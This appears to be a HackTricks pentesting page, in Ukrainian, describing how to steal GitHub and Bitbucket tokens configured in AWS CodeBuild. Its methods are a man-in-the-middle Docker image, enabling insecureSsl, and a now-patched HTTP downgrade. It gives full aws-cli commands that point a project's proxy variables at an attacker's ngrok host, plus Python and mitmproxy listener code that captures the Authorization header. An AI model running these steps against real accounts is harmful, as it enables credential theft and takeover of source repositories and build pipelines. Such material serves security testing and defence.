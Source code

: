 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Відновлення токенів, налаштованих для Github/Bitbucket

Спочатку перевірте, чи є налаштовані облікові дані джерела, які ви могли б витікати:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Якщо ви виявите, що автентифікація, наприклад, до Github налаштована в обліковому записі, ви можете **експортувати** цей **доступ** (**GH token або OAuth token**), змусивши Codebuild **використовувати конкретний docker image** для виконання збірки проекту.

Для цього ви можете **створити новий проект Codebuild** або змінити **середовище** існуючого, щоб налаштувати **Docker image**.

Docker image, який ви можете використовувати, це [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Це дуже базовий Docker image, який налаштує **змінні середовища `https_proxy`**, **`http_proxy`** та **`SSL_CERT_FILE`**. Це дозволить вам перехоплювати більшість трафіку хоста, вказаного в **`https_proxy`** та **`http_proxy`**, і довіряти SSL CERT, вказаному в **`SSL_CERT_FILE`**.

1. **Створіть та завантажте свій власний Docker MitM image**
- Слідуйте інструкціям репозиторію, щоб налаштувати IP-адресу проксі та налаштувати свій SSL сертифікат і **збудувати docker image**.
- **НЕ НАЛАШТУЙТЕ `http_proxy`**, щоб не перехоплювати запити до кінцевої точки метаданих.
- Ви можете використовувати **`ngrok`**, наприклад, `ngrok tcp 4444`, щоб налаштувати проксі на вашому хості.
- Як тільки ви збудуєте Docker image, **завантажте його до публічного репозиторію** (Dockerhub, ECR...)
2. **Налаштуйте середовище**
- Створіть **новий проект Codebuild** або **змініть** середовище існуючого.
- Налаштуйте проект на використання **раніше згенерованого Docker image**.

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Налаштуйте MitM проксі на вашому хості**

- Як вказано в **Github репозиторії**, ви можете використовувати щось на зразок:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
> [!TIP]
> Використовувалася **версія mitmproxy 9.0.1**, повідомлялося, що з версією 10 це може не працювати.

4. **Запустіть збірку та захопіть облікові дані**

- Ви можете побачити токен у заголовку **Authorization**:

<figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

Це також можна зробити з aws cli з чимось на зразок
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
### Via insecureSSL

**Codebuild** проекти мають налаштування під назвою **`insecureSsl`**, яке приховане в вебі, і ви можете змінити його лише через API.\
Увімкнення цього дозволяє Codebuild підключатися до репозиторію **без перевірки сертифіката**, запропонованого платформою.

- Спочатку вам потрібно перерахувати поточну конфігурацію за допомогою чогось на кшталт:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
- Потім, зібравши інформацію, ви можете оновити налаштування проекту **`insecureSsl`** на **`True`**. Наступний приклад показує, як я оновлюю проект, зверніть увагу на **`insecureSsl=True`** в кінці (це єдине, що потрібно змінити в зібраній конфігурації).
- Крім того, додайте також змінні середовища **http_proxy** та **https_proxy**, які вказують на ваш tcp ngrok, як:
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
- Потім запустіть базовий приклад з [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) на порту, вказаному змінними проксі (http_proxy та https_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Нарешті, натисніть на **Build the project**, **облікові дані** будуть **надіслані у відкритому вигляді** (base64) на порт mitm:

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP protocol~~

> [!TIP] > **Цю вразливість виправили AWS на деякий момент тижня 20 лютого 2023 року (я думаю, в п'ятницю). Тож зловмисник більше не може її зловживати :)**

Зловмисник з **підвищеними правами в CodeBuild може витікати токен Github/Bitbucket**, налаштований або, якщо права були налаштовані через OAuth, **тимчасовий OAuth токен, використаний для доступу до коду**.

- Зловмисник може додати змінні середовища **http_proxy** та **https_proxy** до проекту CodeBuild, вказуючи на свою машину (наприклад, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- Потім змініть URL репозиторію github, щоб використовувати HTTP замість HTTPS, наприклад: `http://github.com/carlospolop-forks/TestActions`
- Потім запустіть базовий приклад з [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) на порту, вказаному змінними проксі (http_proxy та https_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="0.0.0.0",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Далі натисніть **Build the project** або запустіть збірку з командного рядка:
```sh
aws codebuild start-build --project-name <proj-name>
```
- Нарешті, **облікові дані** будуть **надіслані у відкритому тексті** (base64) на порт mitm:

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> Тепер зловмисник зможе використовувати токен зі своєї машини, перерахувати всі привілеї, які він має, і (зловживати) легше, ніж безпосередньо використовуючи сервіс CodeBuild.

{{#include ../../../../banners/hacktricks-training.md}}
